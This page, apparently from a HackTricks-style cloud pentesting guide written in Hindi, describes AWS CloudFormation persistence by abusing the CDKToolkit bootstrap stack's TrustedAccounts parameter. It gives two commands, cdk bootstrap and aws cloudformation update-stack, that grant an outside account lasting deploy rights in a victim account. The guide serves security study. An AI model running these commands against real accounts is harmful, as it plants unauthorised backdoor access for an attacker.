 # AWS - Cloudformation Persistence

{{#include ../../../banners/hacktricks-training.md}}

## CloudFormation

अधिक जानकारी के लिए, पहुँचें:

{{#ref}}
../aws-services/aws-cloudformation-and-codestar-enum.md
{{#endref}}

### CDK Bootstrap Stack

AWS CDK एक CFN स्टैक को `CDKToolkit` के रूप में तैनात करता है। यह स्टैक एक पैरामीटर `TrustedAccounts` का समर्थन करता है जो बाहरी खातों को पीड़ित खाते में CDK परियोजनाओं को तैनात करने की अनुमति देता है। एक हमलावर इसका दुरुपयोग करके पीड़ित खाते में अनिश्चितकालीन पहुँच प्राप्त कर सकता है, या तो पैरामीटर के साथ स्टैक को फिर से तैनात करने के लिए AWS cli का उपयोग करके, या AWS CDK cli का उपयोग करके।
```bash
# CDK
cdk bootstrap --trust 1234567890

# AWS CLI
aws cloudformation update-stack --use-previous-template --parameters ParameterKey=TrustedAccounts,ParameterValue=1234567890
```
{{#include ../../../banners/hacktricks-training.md}}
